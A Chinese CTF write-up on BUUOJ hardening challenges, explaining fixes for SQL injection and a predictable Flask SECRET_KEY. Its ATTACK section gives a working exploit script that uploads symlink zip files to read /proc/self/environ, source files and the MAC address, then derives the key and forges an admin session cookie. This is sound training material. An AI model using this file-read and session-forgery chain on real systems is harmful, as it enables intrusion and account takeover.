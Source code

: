 ```yaml
---
title: "buuoj加固题 Wp"
slug: "buuoj-fixchalls-wp"
description: "合集合集，长期更新~"
date: 2021-11-07T08:57:29+08:00
categories: ["CTF", "LTS"]
series: []
tags: ["wp"]
draft: false
toc: true
---
```


buuoj新上了加固题这个分类，也就是线下awdp中fix的部分，只要将靶机中存在的漏洞修复好并通过check的检测即可拿到flag；有一说一，比单纯attack拿flag会简单很多（适合我这种沸物web

下面的wp会先说纯修复角度，再串一下整体的知识点；因为自己水平有限，想尽可能说的清楚一些就会比较啰嗦，见谅QAQ

## Ezsql

### FIX

![image-20211107083450780](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211107083450780.png)

200行，太典了，对传入的参数完全没有检测，是个筛子；用预处理的方式修，又可以分为两种形式

### mysql预处理

![image-20211107083655664](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211107083655664.png)

其中201行的`ss`指的是绑定SQL参数的类型为string，这一项必不可少而且必须与后面的参数一一对应

### PDO预处理

![image-20211107084309239](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211107084309239.png)

PDO预处理属于是通防了，能有效地应对sqli特别是堆叠注入，208行的设置项意为禁用模拟预处理

## [CISCN2021 总决赛]babypython

### FIX

ssh连上后看下目录结构

![image-20211106212456961](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106212456961.png)

查看/app/y0u_found_it/y0u_found_it_main.py

![image-20211106212556547](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106212556547.png)

11行这不是典中典了？读mac地址就打通了，所以我们直接把SECRET_KEY改为一个又长又乱的随机字符串即可，可以使用[uuid/guid生成器](uuid/guid生成器)来生成

![image-20211106210732859](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106210732859.png)

> ————碎碎念：这里修复的时候可能看脸？我在几天前试的时候用的一模一样的方法，但是怎么都不能过check，今天试了一次就可以了，但是在写wp的时候再复盘就又不可以了……emmm 可能还是哪里的细节出了错但是我没有注意到？给我整不会了属于是

### 关于本题

是个原题，还是个有了包浆的原题，参见->**[[HCTF 2018]Hideandseek](https://buuoj.cn/challenges#[HCTF%202018]Hideandseek)**  |  **[[SWPU2019]Web3](https://buuoj.cn/challenges#[SWPU2019]Web3)**，做过的就知道这他妈真的就一模一样hhhhhhhh

考点在于linux软链接+uuid+flask-session伪造，后者还经常单独出题，比如 **[[CISCN2019 华东南赛区]Web4](https://buuoj.cn/challenges#[CISCN2019%20%E5%8D%8E%E4%B8%9C%E5%8D%97%E8%B5%9B%E5%8C%BA]Web4)**，都快烤烂了

### 考点一 · uuid&SECRET_KEY

SECRET_KEY通过uuid+伪随机数的方式生成，这个考点可以参考 **[[CISCN2019 华东南赛区]Web4](https://buuoj.cn/challenges#[CISCN2019%20%E5%8D%8E%E4%B8%9C%E5%8D%97%E8%B5%9B%E5%8C%BA]Web4)**，其中app.py是这样写的

![image-20211106212834438](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106212834438.png)

`uuid.getnode()`会以48位二进制长度的正整数形式返回mac地址，linux下mac地址的位置在`/sys/class/net/eth0/address`，读出mac地址后我们也来生成一波伪随机数

![image-20210707204313712](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210707204313712.png)

之后通过flask-session-cookie-manager一把梭即可伪造session值

![image-20210707204240633](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210707204240633.png)

————另外，通常访问不存在目录时SECRET_KEY会出现在请求头中

### 考点二 · linux软链接文件读取&zip压缩包

ln -s是linux中的软链接命令，我们可以制作对应文件的绝对路径的软链接来读文件；当不知道flask工作目录可以使用`/proc/self/cwd`来指向当前进程的目录

```bash
ln -s /proc/self/cwd/flag/flag/.jpg qwe
```

或者通过`/proc/self/environ`文件里包含进程的环境变量，可以从中获取flask的绝对路径，再制作软链接（关于/proc的更多信息可以参见->[/proc目录的妙用](/proc目录的妙用)  |  [LFItoRCE利用总结](https://bbs.zkaq.cn/t/3639.html)，题->[[网鼎杯 2020 白虎组]PicDown](https://buuoj.cn/challenges#[%E7%BD%91%E9%BC%8E%E6%9D%AF%202020%20%E7%99%BD%E8%99%8E%E7%BB%84]PicDown)

```bash
ln -s /proc/self/environ qwe
```

而对于目录内文件的列举也是有方法的，参见->[34C3 CTF Web题 extract0r Writeup](https://blog.csdn.net/keyball123/article/details/105169946)

甚至也可以写入shell，参见->[[深育杯 2021]Zipzip](https://mp.weixin.qq.com/s/NvItuko9ZAUNTJaSzBpNKw)

制作好的软链接通过zip打包

```bash
zip -ry qwe.zip qwe
```

更多题目中的应用可以参见->[记录一道题的多种解法](http://redteam.today/2018/01/20/%E8%AE%B0%E5%BD%95%E4%B8%80%E9%81%93%E9%A2%98%E7%9A%84%E5%A4%9A%E7%A7%8D%E8%A7%A3%E6%B3%95/)

关于这个漏洞的实际应用可以参见->[GitLab 任意文件读取漏洞 (CVE-2016-9086) 和任意用户 token 泄露漏洞](https://paper.seebug.org/104/)

### *ATTACK

exp.py - 1 生成软链接&zip&自动上传

```python
import requests
import os
import sys

url = 'http://0a716e50-1cf2-4cd8-a00f-b70d9987ed64.node3.buuoj.cn/upload'

def makezip():
    os.system('ln -s '+sys.argv[1]+' exp')
    # os.system('zip --symlinks exp.zip exp')
    os.system('zip -ry exp.zip exp')
makezip()

files = {'the_file':open('./exp.zip', 'rb')}
def exploit():
    res = requests.post(url, files=files)
    print(res.text)
exploit()

os.system('rm -rf exp')
os.system('rm -rf exp.zip')
```

```bash
python3 exp.py /proc/self/environ
python3 exp.py /app/y0u_found_it.ini
python3 exp.py /app/y0u_found_it/y0u_found_it_main.py
python3 exp.py /sys/class/net/eth0/address
```

![image-20211106234837193](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106234837193.png)

exp.py - 2 根据mac地址生成伪随机数

```python
import uuid
import random

mac = "02:42:0a:00:cb:06"
temp = mac.split(':')
temp = [int(i,16) for i in temp]
temp = [bin(i).replace('0b','').zfill(8) for i in temp]
temp = ''.join(temp)
mac = int(temp,2)
random.seed(mac)
result = str(random.random()*100)
print(result)
# 36.014406163923596
```

```bash
python3 flask_session_cookie_manager3.py decode -c 'eyJ1c2VybmFtZSI6Imd1ZXN0In0.FGg0EA.rHjESo_p6RCP0eiosSFmF3xEmRc'
python3 flask_session_cookie_manager3.py encode -s '36.014406163923596'  -t "{u'username': u'admin'}"
```

![image-20211106235751916](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106235751916.png)

翻回头看源码，好家伙这里有内鬼

![image-20211106235832895](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106235832895.png)

![image-20211107075450043](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211107075450043.png)

返回的并不是真正的flag，而是secret.secret中的内容no flah

![image-20211107075326929](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211107075326929.png)

67行这里会对unzip打开的文件进行检查，只要含有flag字样就会重定向至/?error=1

————这里我感觉原题应该secret.py中的`secret=`直接就能读出来flag，想了好久，再绕一层flag.txt的话我是想不出来什么bypass的方法了，我倾向于是布置环境的时候没有设置这一点（

## ***[CISCN2021 总决赛]easy_python

![image-20211106212057524](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106212057524.png)

不知道是我的网络问题还是什么未知的bug……check之后就会宕机，只能重新下发靶机

## ***[CISCN2021 总决赛]ezj4va

https://juejin.cn/post/6997314123918737422

还不会java 先空着TAT

